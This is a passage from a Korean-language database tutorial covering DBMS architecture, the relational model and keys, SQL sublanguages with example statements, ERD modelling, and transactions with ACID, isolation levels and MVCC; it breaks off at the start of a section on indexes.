   - 두 개 이상의 프로그램이나 프로세스가 동일한 파일에 동시에 쓰기 작업을 수행하면 데이터가 덮어씌워지거나 파일 포맷이 깨지는 경쟁 상태(Race Condition)가 발생합니다.
5. **장애 회복(Crash Recovery) 및 보안(Security) 제어의 부재**
   - 데이터를 쓰던 도중 컴퓨터 정전이나 운영체제 크래시가 발생하면 파일이 손상되어 복구할 방법이 없습니다. 또한 파일 단위의 단순 권한(읽기/쓰기)만 제공될 뿐, 특정 사용자에게 '급여 컬럼'만 숨기는 것과 같은 세밀한 컬럼/행 단위 접근 제어가 불가능했습니다.

---

### 1.2 DBMS의 정의와 3단계 데이터 독립성

**DBMS(Database Management System, 데이터베이스 관리 시스템)**는 이러한 파일 시스템의 한계를 극복하기 위해 등장했습니다. 여러 응용 프로그램과 다수의 사용자가 대규모 데이터를 체계적으로 공유, 저장, 검색, 갱신할 수 있도록 중앙에서 통합 관리해 주는 전용 미들웨어 소프트웨어입니다.

```mermaid
flowchart LR
    App1[웹 애플리케이션] --> DBMS
    App2[모바일 앱 백엔드] --> DBMS
    App3[배치 분석 시스템] --> DBMS
    
    subgraph DBMS["DBMS (통합 데이터 관리 엔진)"]
        Engine[쿼리 엔진 / 파서 / 옵티마이저]
        Buffer[버퍼 풀 & 캐시 매니저]
        Lock[동시성 제어 & 락 매니저]
        Log[트랜잭션 & 회복 엔진]
    end
    
    DBMS --> Storage[(물리적 데이터베이스<br/>Data Files / WAL Logs)]
```

#### ANSI/SPARC 3단계 계층 구조와 데이터 독립성
DBMS가 제공하는 가장 위대한 철학적 가치는 **데이터 독립성(Data Independence)**입니다. 1975년 미국표준협회(ANSI)는 데이터베이스 시스템을 3단계 계층으로 모델링하는 표준 구조를 제안했습니다.

```mermaid
flowchart TD
    subgraph ExternalLevel["1. 외부 단계 (External Level)"]
        V1["사용자 뷰 A (인사팀 뷰)"]
        V2["사용자 뷰 B (회계팀 뷰)"]
        V3["사용자 뷰 C (임직원 개인 뷰)"]
    end

    subgraph ConceptualLevel["2. 개념 단계 (Conceptual Level)"]
        CS["개념 스키마 (Conceptual Schema)<br/>전체 데이터베이스의 논리적 구조, 엔티티, 관계, 제약조건"]
    end

    subgraph InternalLevel["3. 내부 단계 (Internal Level)"]
        IS["내부 스키마 (Internal Schema)<br/>물리적 저장 구조, 인덱스, 파일 블록 배치, 압축 방식"]
    end

    V1 <--> CS
    V2 <--> CS
    V3 <--> CS
    CS <--> IS
    IS <--> Disk[(물리 디스크 스토리지)]
```

- **논리적 데이터 독립성(Logical Data Independence)**: 개념 스키마가 변경(예: 새로운 컬럼 추가, 새로운 엔티티 생성)되어도, 기존 외부 뷰(사용자 화면이나 응용 프로그램)는 영향을 받지 않고 그대로 유지될 수 있는 특성입니다.
- **물리적 데이터 독립성(Physical Data Independence)**: 성능 향상을 위해 디스크 저장 경로를 바꾸거나, B-Tree 인덱스를 새로 추가하거나, 테이블스페이스 블록 크기를 조정하는 등 내부 스키마를 변경하더라도 개념 스키마와 응용 프로그램 소스 코드는 전혀 수정할 필요가 없는 특성입니다.

---

### 1.3 RDBMS의 특징과 수학적 관계 모델

1970년 IBM 연구원 에드거 F. 코드(Edgar F. Codd) 박사는 집합론(Set Theory)과 1차 술어 논리(First-Order Predicate Logic)를 기반으로 한 **관계형 데이터 모델(Relational Model)** 논문을 발표했습니다. 이것이 오늘날 전 세계 데이터베이스 시장을 지배하는 **RDBMS(Relational DBMS)**의 시초입니다.

#### 관계형 모델의 핵심 구성 개념
- **릴레이션(Relation)**: 데이터를 2차원 테이블 형태로 표현한 수학적 집합입니다. (실무 용어: 테이블)
- **튜플(Tuple)**: 릴레이션을 구성하는 각각의 행(Row)으로, 독립된 하나의 개체(엔티티) 데이터를 나타냅니다. (실무 용어: 레코드/행)
- **속성(Attribute)**: 릴레이션의 열(Column)로, 데이터의 성질이나 필드를 정의합니다. (실무 용어: 컬럼/필드)
- **도메인(Domain)**: 하나의 속성이 가질 수 있는 원자값(Atomic Value)들의 유효한 집합입니다. (예: `나이`의 도메인은 0 이상의 정수)
- **차수(Degree)**: 한 릴레이션에 포함된 속성(열)의 개수입니다.
- **카디널리티(Cardinality)**: 한 릴레이션에 포함된 튜플(행)의 총 개수입니다.

| 학술적 용어 (관계 대수) | 데이터베이스 실무 용어 | 파일 시스템 대응 용어 |
| :--- | :--- | :--- |
| **릴레이션 (Relation)** | 테이블 (Table) | 파일 (File) |
| **튜플 (Tuple)** | 행, 레코드 (Row, Record) | 레코드 (Record) |
| **속성 (Attribute)** | 열, 필드, 컬럼 (Column, Field) | 필드 (Field) |
| **도메인 (Domain)** | 데이터 타입 및 제약 (Data Type & Constraint) | 데이터 형식 (Data Type) |

#### 키(Key)의 계층 구조
관계형 데이터베이스에서는 중복된 행을 허용하지 않으며, 특정 튜플을 유일하게 식별하기 위해 **키(Key)**라는 수학적 식별 체계를 사용합니다.

1. **슈퍼키(Super Key)**: 튜플을 고유하게 식별할 수 있는 속성들의 집합 (유일성은 만족하나 최소성은 만족하지 않을 수 있음. 예: `(사번, 이메일, 이름)`)
2. **후보키(Candidate Key)**: 튜플을 유일하게 식별할 수 있는 최소한의 속성 집합 (유일성과 최소성을 모두 만족. 예: `사번`, `이메일`)
3. **기본키(Primary Key, PK)**: 여러 후보키 중 데이터베이스 설계자가 테이블의 대표 식별자로 선택한 키 (중복 불가, NULL 값 불가)
4. **대체키(Alternate Key)**: 후보키 중 기본키로 선택되지 못한 나머지 키
5. **외래키(Foreign Key, FK)**: 다른 테이블의 기본키(또는 유니크 키)를 참조하는 속성으로, 테이블 간의 연결 고리와 참조 무결성(Referential Integrity)을 보장합니다.

---

### 1.4 표준 SQL 언어 체계

**SQL(Structured Query Language)**은 RDBMS와 대화하기 위해 국제 표준화 기구(ISO/ANSI)에서 제정한 선언적(Declarative) 질의 언어입니다. 명령형(Imperative) 언어(C, Java, Python 등)처럼 "데이터를 어떻게(How) 루프를 돌며 찾을 것인가"를 기술하지 않고, "어떤(What) 데이터를 원하는가"만 선언하면 DBMS 내부의 **비용 기반 옵티마이저(Cost-Based Optimizer, CBO)**가 최적의 실행 경로를 스스로 찾아냅니다.

SQL은 목적에 따라 크게 4가지 하위 언어로 엄격히 분류됩니다.

```mermaid
flowchart TD
    SQL["SQL (Structured Query Language)"]
    
    SQL --> DDL["DDL (데이터 정의어)<br/>CREATE, ALTER, DROP, TRUNCATE"]
    SQL --> DML["DML (데이터 조작어)<br/>SELECT, INSERT, UPDATE, DELETE"]
    SQL --> DCL["DCL (데이터 제어어)<br/>GRANT, REVOKE"]
    SQL --> TCL["TCL (트랜잭션 제어어)<br/>COMMIT, ROLLBACK, SAVEPOINT"]
```

#### SQL 분류별 문법과 실무 예제

```sql
-- 1. DDL (Data Definition Language) : 테이블 스키마 정의 및 변경
CREATE TABLE department (
    dept_id INT PRIMARY KEY,
    dept_name VARCHAR(50) NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

CREATE TABLE employee (
    emp_id INT AUTO_INCREMENT PRIMARY KEY,
    emp_name VARCHAR(50) NOT NULL,
    email VARCHAR(100) UNIQUE,
    salary DECIMAL(10, 2) CHECK (salary >= 0),
    dept_id INT,
    CONSTRAINT fk_emp_dept FOREIGN KEY (dept_id) REFERENCES department(dept_id)
        ON DELETE SET NULL ON UPDATE CASCADE
);

-- 2. DML (Data Manipulation Language) : 데이터 입력, 수정, 삭제, 조회
INSERT INTO department (dept_id, dept_name) VALUES (10, '데이터플랫폼팀');
INSERT INTO employee (emp_name, email, salary, dept_id) 
VALUES ('김데이터', 'kim@company.com', 7500000.00, 10);

-- 집계 및 조인을 활용한 DML 조회
SELECT d.dept_name, COUNT(e.emp_id) AS total_emp, AVG(e.salary) AS avg_salary
FROM department d
LEFT JOIN employee e ON d.dept_id = e.dept_id
GROUP BY d.dept_id, d.dept_name
HAVING COUNT(e.emp_id) > 0;

-- 3. DCL (Data Control Language) : 권한 부여 및 회수
GRANT SELECT, INSERT ON employee TO 'developer_readonly'@'%';
REVOKE INSERT ON employee FROM 'developer_readonly'@'%';

-- 4. TCL (Transaction Control Language) : 트랜잭션 확정 및 취소
START TRANSACTION;
UPDATE employee SET salary = salary * 1.10 WHERE dept_id = 10;
-- 만약 이상 징후가 발견되면: ROLLBACK;
COMMIT;
```

---

## 02. ERD(개체-관계 다이어그램)는 무엇인가요?
> **데이터 모델링 청사진, 개체-속성-관계의 3대 요소, 카디널리티 표기법 및 식별/비식별 관계의 물리적 본질**

집을 지을 때 건축 설계도면이 없으면 기둥의 위치가 어긋나 건물이 붕괴하듯, 소프트웨어 시스템을 구축할 때 데이터 모델링 설계도면이 없으면 스키마가 꼬여 데이터 정합성이 파괴됩니다. 데이터베이스 설계의 가장 표준적인 시각적 도면이 바로 **ERD(Entity-Relationship Diagram, 개체-관계 다이어그램)**입니다.

---

### 2.1 데이터베이스 설계 3단계와 ERD의 역할

데이터베이스 모델링은 현실 세계의 복잡한 비즈니스 규칙을 컴퓨터 디스크의 2차원 테이블 구조로 변환해 나가는 정교한 추상화 과정입니다.

```mermaid
flowchart LR
    A["현실 세계 요구사항<br/>(비즈니스 규칙, 인터뷰)"] --> B["1. 개념적 모델링<br/>(핵심 엔티티 도출, 관계 정의)"]
    B --> C["2. 논리적 모델링<br/>(속성 상세화, 식별자 지정, 정규화)"]
    C --> D["3. 물리적 모델링<br/>(데이터 타입, 인덱스, 반정규화)"]
    D --> E["물리적 DDL 스키마 생성<br/>(CREATE TABLE 실행)"]
```

1. **개념적 데이터 모델링(Conceptual Modeling)**
   - 비즈니스 도메인의 핵심 엔티티를 도출하고 엔티티 간의 거시적인 관계를 규명합니다. DBMS의 종류(MySQL, Oracle 등)와 무관하게 작성됩니다.
2. **논리적 데이터 모델링(Logical Modeling)**
   - 모든 속성(Attribute)을 상세히 정의하고, 기본키(PK)와 외래키(FK)를 지정하며, 제3정규화(3NF)를 거쳐 중복을 제거합니다. 누가 보아도 시스템의 비즈니스 로직을 완벽히 이해할 수 있는 청사진 단계입니다.
3. **물리적 데이터 모델링(Physical Modeling)**
   - 목표 DBMS의 물리적 하드웨어 특성과 성능을 고려하여 `VARCHAR`, `INT`, `BIGINT` 등의 구체적 컬럼 타입을 지정하고, 인덱스 설계, 파티셔닝 전략, 성능 향상을 위한 반정규화를 적용합니다.

---

### 2.2 ERD의 3대 핵심 구성 요소

ERD는 피터 첸(Peter Chen) 교수가 1976년에 제안한 이후 다양한 표기법으로 발전해 왔으며, 기본적으로 세 가지 요소로 구성됩니다.

```mermaid
flowchart LR
    E["개체 (Entity)<br/>명사형, 관리 대상 실체<br/>예: 회원, 주문, 상품"] --- R{"관계 (Relationship)<br/>동사형, 상호 연관성<br/>예: 주문하다, 결제하다"}
    R --- E2["개체 (Entity)<br/>예: 결제내역"]
    A1["속성 (Attribute)<br/>회원ID, 이메일, 가입일"] --- E
    A2["속성 (Attribute)<br/>주문번호, 주문일시"] --- E2
```

1. **개체(Entity)**
   - 조직이 관리하고자 하는 유의미한 정보를 가진 대상(사람, 장소, 사물, 사건, 개념)입니다.
   - 릴레이션(테이블)으로 변환되며, 엔티티의 인스턴스는 행(Row)이 됩니다.
   - 예: `Customer`(고객), `Product`(상품), `Order`(주문)
2. **속성(Attribute)**
   - 개체가 가지는 고유한 성질, 상태, 특징입니다. 테이블의 컬럼(Column)으로 변환됩니다.
   - **기본 속성(Basic Attribute)**: 업무로부터 원래 도출된 속성 (예: 상품명, 가격)
   - **설계 속성(Designed Attribute)**: 업무에는 없었으나 설계 편의를 위해 인위적으로 부여한 속성 (예: `order_status_code`)
   - **파생 속성(Derived Attribute)**: 다른 속성의 계산을 통해 동적으로 생성되는 속성 (예: `total_order_amount`, `member_count`)
3. **관계(Relationship)**
   - 두 엔티티 사이의 논리적인 연관성이나 상호작용입니다.
   - "고객이 상품을 **주문한다**", "직원이 부서에 **소속된다**"와 같이 동사형으로 표현됩니다.

---

### 2.3 관계의 카디널리티(Cardinality)와 N:M의 해소

관계 차수(Cardinality)는 한 엔티티의 인스턴스가 다른 엔티티의 인스턴스와 몇 대 몇으로 연결될 수 있는지를 나타냅니다.

#### 1. 1:1 관계 (일대일)
- 하나의 A 개체가 오직 하나의 B 개체와 연결됩니다.
- 예: `User`(사용자 계정) ↔ `UserProfileDetail`(사용자 상세 프로필 / 민감 개인정보)
- 실무에서는 대부분 한 테이블로 합치지만, 개인정보 보호 법령에 따른 물리적 암호화 분리나 성능상 LOB(Large Object) 데이터 격리를 위해 1:1 테이블 분리를 적용합니다.

#### 2. 1:N 관계 (일대다)
- 하나의 A 개체가 여러 개의 B 개체를 가질 수 있으나, B 개체는 오직 하나의 A 개체에만 속합니다.
- 예: `Department`(부서, 1) ↔ `Employee`(직원, N), `Customer`(고객, 1) ↔ `Order`(주문, N)
- RDBMS에서 가장 보편적이고 자연스러운 관계입니다. 항상 'N' 쪽에 외래키(FK) 컬럼이 위치합니다.

#### 3. N:M 관계 (다대다)와 교차 테이블(Mapping Table)
- 하나의 A 개체가 여러 B 개체를 가질 수 있고, 하나의 B 개체도 여러 A 개체를 가질 수 있는 형태입니다.
- 예: `Student`(학생) ↔ `Course`(과목), `Order`(주문) ↔ `Product`(상품)
- **RDBMS의 물리적 한계**: 관계형 데이터베이스의 2차원 테이블 구조에서는 한 컬럼에 여러 개의 FK 값을 배열처럼 저장할 수 없습니다(제1정규형 위반). 따라서 N:M 관계는 물리적으로 직접 연결할 수 없습니다.

```mermaid
flowchart LR
    subgraph Conceptual["개념적 N:M 관계 (직접 구현 불가)"]
        Order[주문 엔티티] <-->|N : M| Product[상품 엔티티]
    end

    subgraph Physical["물리적 해소 (교차 테이블 도입)"]
        O[ORDER 테이블<br/>order_id PK] -->|1 : N| OI[ORDER_ITEM 테이블<br/>order_id FK, product_id FK<br/>quantity, unit_price]
        P[PRODUCT 테이블<br/>product_id PK] -->|1 : N| OI
    end
```

> **💡 실무 핵심: 교차 테이블(Associative / Mapping Entity)**  
> N:M 관계는 반드시 중간에 **연결 테이블(교차 테이블)**을 두어 **`1:N` 및 `N:1`의 두 개 관계**로 분해해야 합니다. 단순히 두 부모의 PK만 결합하는 것이 아니라, `order_item` 테이블처럼 **"해당 시점의 구매 수량(`quantity`)", "주문 당시의 할인 적용 단가(`unit_price`)"**와 같은 고유한 비즈니스 속성을 가질 수 있도록 설계해야 합니다.

---

### 2.4 식별 관계 vs 비식별 관계의 본질적 차이

부모 테이블과 자식 테이블이 외래키로 맺어질 때, 그 외래키를 자식 테이블의 어디에 둘 것인가에 따라 식별과 비식별 관계로 나뉩니다.

```mermaid
classDiagram
    direction LR
    class Identifying_Parent {
        +int dept_id PK
        string dept_name
    }
    class Identifying_Child {
        +int dept_id PK, FK
        +int team_id PK
        string team_name
    }
    Identifying_Parent <|-- Identifying_Child : 실선 (식별 관계)

    class NonIdentifying_Parent {
        +int dept_id PK
        string dept_name
    }
    class NonIdentifying_Child {
        +int emp_id PK
        string emp_name
        int dept_id FK (일반 속성)
    }
    NonIdentifying_Parent <|.. NonIdentifying_Child : 점선 (비식별 관계)
```

| 구분 | 식별 관계 (Identifying Relationship) | 비식별 관계 (Non-identifying Relationship) |
| :--- | :--- | :--- |
| **정의** | 부모의 기본키(PK)가 자식의 **기본키(PK)이자 외래키(FK)**로 흡수됨 | 부모의 기본키(PK)가 자식의 **일반 컬럼(FK)**으로만 참조됨 |
| **다이어그램 표기** | **실선 (Solid Line)** | **점선 (Dashed Line)** |
| **존재 종속성** | **강한 종속**: 부모가 없으면 자식은 존재할 수 없음 | **약한 종속**: 부모 없이도 자식 데이터가 독립 존재 가능 |
| **자식 테이블 PK** | 복합 기본키 (부모 PK + 자식 식별자) | 단독 인조키(Surrogate Key, 예: Auto-increment ID) |
| **장점** | 상위 테이블의 PK를 계속 물려받으므로 조인 없이도 손자 테이블에서 조부모 PK 확인 가능 | 스키마 구조가 유연하며, 복합 PK 누적에 따른 인덱스 크기 비대화 방지 |
| **단점** | 계층이 깊어질수록 자식 테이블의 PK 컬럼 수가 기하급수적으로 증가하여 SQL 복잡도 및 인덱스 비용 폭증 | 상위 정보를 확인하려면 부모 테이블과의 추가적인 조인(JOIN) 필요 |

> **💡 현대 데이터 아키텍처의 트렌드**  
> 과거에는 식별 관계를 과도하게 사용하는 경향이 있었으나, 최근 대규모 백엔드 시스템에서는 **비식별 관계를 표준으로 권장**합니다. 각 테이블마다 단일 기본키(`id BIGINT AUTO_INCREMENT` 또는 `UUID`)를 인조키로 두고 부모 키는 일반 외래키 컬럼으로 참조함으로써 ORM(JPA, TypeORM) 매핑의 복잡도를 낮추고 테이블 간 결합도를 느슨하게 유지합니다.

---

### 2.5 까마귀 발 표기법(Crow's Foot Notation) 실전 ERD

현대 데이터베이스 모델링 툴(ERwin, DBeaver, MySQL Workbench, Mermaid 등)에서 가장 널리 쓰이는 표기법은 **까마귀 발 표기법(IE 표기법)**입니다.

- `||` : 1과 오직 하나 (Mandatory One, 정확히 1개)
- `O|` : 0 또는 1 (Optional One, 없거나 1개)
- `|<` : 1 이상 (Mandatory Many, 최소 1개 이상)
- `O<` : 0 이상 (Optional Many, 없거나 여러 개)

다음은 전형적인 이커머스(전자상거래) 도메인의 실전 ERD 다이어그램입니다.

```mermaid
erDiagram
    CUSTOMER ||--o{ ORDER : "places (1:N)"
    ORDER ||--|{ ORDER_ITEM : "contains (1:N)"
    PRODUCT ||--o{ ORDER_ITEM : "ordered_in (1:N)"
    CATEGORY ||--o{ PRODUCT : "classifies (1:N)"
    CUSTOMER ||--o| CUSTOMER_PROFILE : "has (1:1)"

    CUSTOMER {
        bigint customer_id PK "고객 고유 번호"
        varchar email UK "로그인 이메일"
        varchar password_hash "비밀번호 해시"
        varchar name "고객명"
        datetime created_at "가입 일시"
    }

    CUSTOMER_PROFILE {
        bigint customer_id PK, FK "고객 고유 번호 (1:1)"
        varchar resident_num_masked "마스킹된 주민번호"
        varchar marketing_agree_yn "마케팅 수신 동의 여부"
        text shipping_address "기본 배송지 주소"
    }

    ORDER {
        bigint order_id PK "주문 번호"
        bigint customer_id FK "주문한 고객 번호 (비식별)"
        datetime order_date "주문 일시"
        varchar order_status "주문 상태 (PENDING, PAID, SHIPPED)"
        decimal total_amount "총 결제 금액"
    }

    ORDER_ITEM {
        bigint order_item_id PK "주문 품목 고유 번호"
        bigint order_id FK "소속된 주문 번호"
        bigint product_id FK "주문된 상품 번호"
        int quantity "주문 수량"
        decimal unit_price "주문 당시 단가"
    }

    PRODUCT {
        bigint product_id PK "상품 번호"
        bigint category_id FK "소속 카테고리 번호"
        varchar product_name "상품명"
        decimal price "판매가"
        int stock_quantity "재고 수량"
    }

    CATEGORY {
        bigint category_id PK "카테고리 번호"
        varchar category_name "카테고리명"
        bigint parent_category_id FK "상위 카테고리 번호 (자기 참조)"
    }
```

---

## 03. 트랜잭션과 ACID란 무엇인가요?
> **데이터베이스의 논리적 최소 작업 단위, ACID 원칙, 동시성 이상 현상 및 4대 격리 수준의 MVCC 내부 메커니즘**

금융, 전자상거래, 예약 시스템 등 현대 IT 서비스에서 데이터 무결성을 보장하는 가장 위대한 논리적 장치는 바로 **트랜잭션(Transaction)**입니다. 트랜잭션이 보장되지 않는다면 동시 다발적인 사용자 요청 속에서 잔고가 사라지거나 재고가 마이너스로 떨어지는 치명적인 결함이 발생하게 됩니다.

---

### 3.1 트랜잭션의 본질: 계좌 이체 시나리오

트랜잭션은 **"더 이상 쪼갤 수 없는 논리적인 작업의 최소 단위(Unit of Work)"**를 의미합니다. 하나의 비즈니스 행위를 완성하기 위해 수행되는 여러 개의 세부 데이터베이스 연산(SQL)들이 모여 하나의 온전한 묶음을 이룹니다.

가장 대표적인 예시는 **은행 계좌 이체(A가 B에게 10만 원을 송금)**입니다.

```mermaid
sequenceDiagram
    autonumber
    participant App as 뱅킹 애플리케이션
    participant DB as 데이터베이스 엔진

    App->>DB: START TRANSACTION;
    App->>DB: 1. A 계좌 잔액 확인 (SELECT balance FROM account WHERE id = 'A';)
    App->>DB: 2. A 계좌에서 10만 원 차감 (UPDATE account SET balance = balance - 100000 WHERE id = 'A';)
    
    Note over App,DB: [치명적 서버 다운 또는 네트워크 정전 발생!]
    
    App--xDB: 3. B 계좌에 10만 원 가산 (UPDATE account SET balance = balance + 100000 WHERE id = 'B';)
    App--xDB: COMMIT;
```

만약 트랜잭션이라는 개념이 없다면 2번 단계에서 서버가 다운되었을 때 A의 계좌에서는 10만 원이 인출되었지만, B의 계좌에는 입금되지 않은 채 돈이 공중으로 증발하게 됩니다.  
트랜잭션은 이러한 상황에서 **"모든 연산이 완벽하게 성공(COMMIT)하거나, 도중에 하나라도 실패하면 시작하기 전 상태로 완벽히 되돌린다(ROLLBACK)"**는 원칙을 제공합니다.

---

### 3.2 데이터베이스의 4대 수호신: ACID 특성

RDBMS가 트랜잭션의 신뢰성을 증명하기 위해 준수하는 네 가지 핵심 원칙을 **ACID**라고 부릅니다.

```mermaid
mindmap
  root((ACID 원칙))
    원자성 Atomicity
      All or Nothing
      Undo Log 기반 롤백
      Commit / Rollback
    일관성 Consistency
      도메인 제약조건 준수
      외래키 / PK 무결성
      트랜잭션 전후 규칙 보존
    격리성 Isolation
      동시 트랜잭션 상호 독립
      Locking 메커니즘
      MVCC 다중 버전 동시성
    지속성 Durability
      성공한 결과의 영구 보존
      WAL Write-Ahead Logging
      Redo Log 기반 장애 복구
```

#### 1. 원자성 (Atomicity)
- **정의**: 트랜잭션에 포함된 모든 작업은 완전히 수행(All)되거나, 아니면 전혀 수행되지 않아야(Nothing) 합니다.
- **내부 구현 메커니즘**: DBMS는 데이터 변경을 수행할 때 변경 전의 원래 데이터를 메모리의 **언두 로그(Undo Log)** 버퍼에 먼저 기록합니다. 트랜잭션 도중 에러가 발생하거나 사용자가 `ROLLBACK`을 호출하면, 이 Undo 로그를 역순으로 실행하여 데이터를 완벽하게 원래 상태로 복원합니다.

#### 2. 일관성 (Consistency)
- **정의**: 트랜잭션이 성공적으로 완료되면 데이터베이스는 언제나 정의된 모든 무결성 제약조건(기본키 중복 불가, 외래키 참조 무결성, NOT NULL, CHECK 조건 등)을 완벽히 만족하는 유효한 상태를 유지해야 합니다.
- **예시**: '잔액' 컬럼의 도메인이 0 이상이어야 한다는 제약조건이 있다면, 어떤 트랜잭션도 잔액을 음수로 만들고 커밋할 수 없습니다. 위반 시 트랜잭션은 즉시 중단되고 롤백됩니다.

#### 3. 격리성 (Isolation)
- **정의**: 여러 트랜잭션이 동시에 실행될 때, 각 트랜잭션은 다른 트랜잭션의 중간 연산 과정에 간섭받지 않고 마치 혼자 독립적으로 실행되는 것처럼 동작해야 합니다.
- **내부 구현 메커니즘**: 비관적 락(Pessimistic Lock: 배타 락, 공유 락)이나 현대적인 **MVCC(Multi-Version Concurrency Control)**를 통해 트랜잭션 간의 데이터 충돌을 제어합니다. 격리성을 완벽히 보장할수록 동시 처리 성능(Throughput)이 떨어지므로, 현실에서는 격리 수준을 조정하는 타협점을 둡니다.

#### 4. 지속성 (Durability)
- **정의**: 성공적으로 커밋된 트랜잭션의 결과는 시스템에 정전, 운영체제 충돌, 디스크 오류 등 치명적인 재해가 발생해도 영구적으로 보존되어야 합니다.
- **내부 구현 메커니즘**: 데이터베이스는 성능을 위해 디스크 파일에 직접 쓰지 않고 메모리(버퍼 풀)에서 먼저 수정합니다. 디스크에 실제 데이터 파일이 쓰이기 전에 정전이 나더라도 커밋된 데이터를 잃어버리지 않도록, 순차 쓰기(Sequential Write) 방식으로 매우 빠르게 기록되는 **리두 로그(Redo Log / WAL: Write-Ahead Logging)**를 디스크에 강제 플러시(Flush)합니다. 재부팅 시 Redo 로그를 재생(Replay)하여 메모리에만 남아있던 변경 사항을 디스크 파일에 완벽히 복원합니다.

---

### 3.3 동시성 제어 실패 시 발생하는 5대 이상 현상(Anomalies)

여러 사용자가 동일한 데이터에 동시에 접근할 때 적절한 격리성을 제공하지 않으면 다음과 같은 데이터 왜곡 현상이 발생합니다.

```mermaid
flowchart TD
    subgraph DirtyRead["1. Dirty Read (더티 리드)"]
        T1_1["Tx 1: 잔액 100만 -> 200만 수정 (미커밋)"] --> T2_1["Tx 2: 잔액 200만 읽음"]
        T1_2["Tx 1: 롤백 발생! (원복: 100만)"] --> T2_2["Tx 2: 존재하지 않는 가짜 200만 원으로 송금 처리!"]
    end
```

1. **Dirty Read (더티 리드)**
   - 트랜잭션 A가 데이터를 수정하고 아직 `COMMIT`하지 않았는데, 트랜잭션 B가 이 수정된 중간 데이터를 읽어가는 현상입니다. 만약 트랜잭션 A가 롤백되면 트랜잭션 B는 세상에 존재하지도 않았던 '유령 데이터'를 기반으로 잘못된 비즈니스 판단을 내리게 됩니다.
2. **Non-Repeatable Read (Fuzzy Read)**
   - 한 트랜잭션 내에서 **동일한 단일 레코드를 두 번 조회**했는데, 그 사이에 다른 트랜잭션이 해당 데이터를 `UPDATE` 또는 `DELETE`하고 커밋하여 두 번의 조회 결과가 서로 다르게 나오는 현상입니다.
3. **Phantom Read (팬텀 리드)**
   - 한 트랜잭션 내에서 **특정 조건의 범위(Range)를 두 번 조회**했는데, 그 사이에 다른 트랜잭션이 해당 범위에 부합하는 새로운 행을 `INSERT`하고 커밋하여 두 번째 조회 때 없던 유령(Phantom) 행이 불쑥 튀어나오는 현상입니다.
4. **Dirty Write (더티 라이트)**
   - 아직 커밋되지 않은 트랜잭션이 수정한 데이터를 다른 트랜잭션이 덮어쓰는 현상입니다. 롤백 시 어떤 상태로 되돌려야 할지 모호해지므로 모든 현대 DBMS는 격리 수준과 무관하게 이를 무조건 차단합니다.
5. **Lost Update (갱신 손실)**
   - 두 트랜잭션이 동일한 행을 동시에 읽은 후 각각 수정하여 저장할 때, 나중에 저장된 트랜잭션이 먼저 저장된 트랜잭션의 수정 내용을 덮어써서 지워버리는 현상입니다. (비관적/낙관적 락으로 해결)

---

### 3.4 ANSI/ISO SQL 표준 트랜잭션 4대 격리 수준(Isolation Levels)

데이터베이스 표준은 격리성과 동시성 성능 간의 트레이드오프를 고려하여 4단계의 격리 수준을 정의했습니다.

| 격리 수준 (Isolation Level) | Dirty Read | Non-Repeatable Read | Phantom Read | 일반적인 성능 | 실무 권장 사용 환경 |
| :--- | :---: | :---: | :---: | :---: | :--- |
| **READ UNCOMMITTED** (Lv 0) | **발생** | **발생** | **발생** | 가장 빠름 | 데이터 정확도가 중요치 않은 대규모 통계/로그 집계 |
| **READ COMMITTED** (Lv 1) | 방지 | **발생** | **발생** | 매우 빠름 | **Oracle, PostgreSQL, SQL Server의 기본값** |
| **REPEATABLE READ** (Lv 2) | 방지 | 방지 | **발생\*** | 보통 | **MySQL InnoDB의 기본값** (MVCC로 Phantom Read도 대다수 방지) |
| **SERIALIZABLE** (Lv 3) | 방지 | 방지 | 방지 | 가장 느림 | 금융 결제, 암호화폐 이체 등 극도의 정합성이 요구되는 구간 |

*\* 참고: ANSI 표준에서는 REPEATABLE READ에서 Phantom Read가 발생한다고 명시하지만, MySQL InnoDB는 넥스트 키 락(Next-Key Lock)과 MVCC 언두 로그를 활용하여 일반적인 조회 시 Phantom Read를 원천 차단합니다.*

---

### 3.5 현대 RDBMS의 핵심: MVCC(Multi-Version Concurrency Control)

과거 데이터베이스는 격리성을 위해 읽기 작업에도 공유 락(Shared Lock), 쓰기 작업에 배타 락(Exclusive Lock)을 걸어 **"읽는 동안 쓰지 못하고, 쓰는 동안 읽지 못하는"** 심각한 병목을 겪었습니다.  
현대의 고성능 DBMS(MySQL InnoDB, PostgreSQL, Oracle)는 **MVCC(다중 버전 동시성 제어)**를 통해 이 문제를 우아하게 해결했습니다.

```mermaid
sequenceDiagram
    autonumber
    participant T1 as 트랜잭션 1 (조회)
    participant Engine as InnoDB 엔진 (버퍼풀 & 언두로그)
    participant T2 as 트랜잭션 2 (수정)

    Note over Engine: 원래 데이터: id=1, age=20 (DB_TRX_ID=100)
    T1->>Engine: START TRANSACTION (Tx_ID=200);
    T1->>Engine: SELECT age FROM user WHERE id=1; -> 반환: 20
    
    T2->>Engine: START TRANSACTION (Tx_ID=201);
    T2->>Engine: UPDATE user SET age=30 WHERE id=1;
    Note over Engine: 버퍼풀: age=30 (DB_TRX_ID=201)<br/>언두로그: age=20 (이전 버전 보존)
    T2->>Engine: COMMIT;

    T1->>Engine: SELECT age FROM user WHERE id=1;
    Note over Engine: T1은 자신의 시작 시점(스냅샷)보다 미래의 Tx_ID(201)는 무시하고<br/>언두로그의 이전 버전(age=20)을 읽음!
    Engine-->>T1: 반환: 20 (일관된 스냅샷 읽기!)
```

> **💡 MVCC의 불문율**  
> **"읽기(Read)는 쓰기(Write)를 블로킹하지 않고, 쓰기(Write)는 읽기(Read)를 블로킹하지 않는다."**  
> 트랜잭션이 데이터를 읽을 때 락을 거는 대신, 자신의 트랜잭션 ID보다 이전에 커밋된 스냅샷(Undo 영역)을 읽음으로써 수천 건의 동시 쓰기 요청이 발생하는 와중에도 대기 시간(Lock Wait) 없이 초고속으로 일관된 조회를 수행합니다.

---

## 04. 인덱스(Index)는 왜 필요한가요?
> **책의 색인 비유, Full Table Scan vs Index Scan, B+Tree 인덱스 구조와 검색 원리, CUD 오버헤드와 튜닝 4대 황금률**

데이터베이스 튜닝의 8할은 인덱스에서 결정됩니다. 100만 건의 데이터가 담긴 테이블에서 특정 레코드를 조회할 때, 인덱스가 없으면 수 초 이상의 시간이 걸려 서비스가 멈추지만, 올바른 인덱스 하나만 존재하면 단 수 밀리초(0.002초) 만에 결과를 반환합니다. 인덱스는 대체 어떤 원리로 동작할까요?

---

### 4.1 책의 색인(Index)과 풀 테이블 스캔

